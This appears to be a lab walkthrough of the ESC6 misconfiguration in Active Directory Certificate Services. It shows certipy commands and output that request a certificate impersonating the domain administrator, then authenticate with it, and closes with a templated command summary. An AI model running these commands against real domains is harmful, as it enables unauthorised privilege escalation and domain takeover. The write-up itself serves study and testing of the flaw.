 The ESC6 vulnerability in Active Directory Certificate Services (AD CS) arises when the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag is set on the Certificate Authority (CA), allowing user-defined values in the Subject Alternative Name (SAN) field of certificate requests. 

Although Microsoft addressed this issue in the May 2022 Security Updates (CVE-2022-26923), it is essential to ensure that configurations are up-to-date, as some organisations may still be at risk. If the updates are not applied and the flag is enabled, all templates permitting SAN specification in the Certificate Signing Request (CSR) are vulnerable, including the built-in User template. 

This allows for potential exploitation and privilege escalation, particularly when implementing Smart Card logon. The `EDITF_ATTRIBUTESUBJECTALTNAME2` flag can be exploited to request certificates with any user designated as an additional User Principal Name (UPN).

```bash
garffff@garffff:~/GOAD/adcs/esc6$ certipy req -u khal.drogo@essos.local -p 'horse' -template User -ca ESSOS-CA -upn administrator@essos.local -dc-ip 192.168.56.23
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 111
[*] Got certificate with UPN 'administrator@essos.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

Request the NTLMv1 hash for the targeted user:

```bash
garffff@garffff:~/GOAD/adcs/esc6$ certipy auth -pfx administrator.pfx -dc-ip 192.168.56.12
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@essos.local
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
```

Should the error `KDC_ERR_PADATA_TYPE_NOSUPP` happen, following the `Pass-the-cert` attack.

### Summary

```bash
certipy req -u <username>@<domain> -p '<password>' -template User -ca <ca> -upn <target_user>@<domain> -dc-ip <adcs_ip>
certipy auth -pfx <target_user>.pfx -dc-ip <dc_ip>
```